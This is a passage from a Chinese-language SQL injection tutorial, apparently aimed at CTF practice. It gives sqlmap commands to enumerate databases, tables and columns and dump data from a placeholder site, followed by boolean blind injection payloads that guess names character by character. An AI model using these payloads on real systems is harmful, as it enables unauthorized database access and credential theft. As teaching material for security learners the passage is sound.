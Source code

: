 好家伙，借助group_concat()方法，该数据库所有的账号密码都以“账号：密码”的格式爆出来了

## 利用SQLmap工具进行sql注入

进入SQLmap工具目录打开命令行，输入命令

```bash
py sqlmap.py -u http://xxx.com/?id=1 --dbs --batch		//输入点为id参数 --dbs参数用于探测数据库，--batch参数用于自动执行默认选项（省的我们在探测过程中一直按Y）
```

如果只有一个注入点，可以不用在url两边加上双引号，如果有两个注入点，则需要将url用双引号括起来

```bash
py sqlmap.py -u "http://xxx.com/?id=1&digree=high" --dbs --batch
```

如果需要的数据就在本数据库里，则可以省去上面这一步，直接进行接下来的爆表，爆字段的操作

```bash
py sqlmap.py -u http://xxx.com/?id=1 --tables --batch		//爆表
假如爆出表名‘flag’
```

```bash
py sqlmap.py -u http://xxx.com/?id=1 -T flag --columns --batch		//爆字段
假如爆出字段‘flag’
```

```bash
py sqlmap.py -u http://xxx.com/?id=1 -T flag -C flag --dump --batch		//爆出数据
到这里就可以拿到我们想要的字段里的数据了
```



### 布尔型盲注

采用以下语句拆（猜）解字符串

猜解数据库名字长度

```mysql
?id =1' and length(database())><=N --+
```

猜测数据库名字。

```mysql
?id =1' and ascii(substr(database(),1,1))><=N --+		（利用二分法，ascii为ascii码，例如97=‘a’）
```

> SUBSTR(str,pos,len): 从pos开始的位置，截取len个字符
>
> 所以substr(database(),1,1)意思是截取数据库名的第一个字符，用这种方式猜解数据库的第1，2，3...到最后一个字符。
>
> SUBSTR(str,pos): pos开始的位置，一直截取到最后 

6、猜表名

```mysql
?id=1' and (ascii(substr((select table_name from  information_schema.tables where  table_schema=database()),1,1)))><=N --+）
```
 7、猜列名：
```mysql
?id=1' and (ascii(substr((select column_name from  information_schema.columns where table_schema=database() and  table_name=‘表名’ limit 0,1),1,1)))><=N --+ (如果报错可以加limit 0,1)
```
 8、查字段
```mysql
?id=1' and length((select 列名 from 数据库.表名 limit 0,1))>0 --+
然后重复以上猜解字符串手法
```
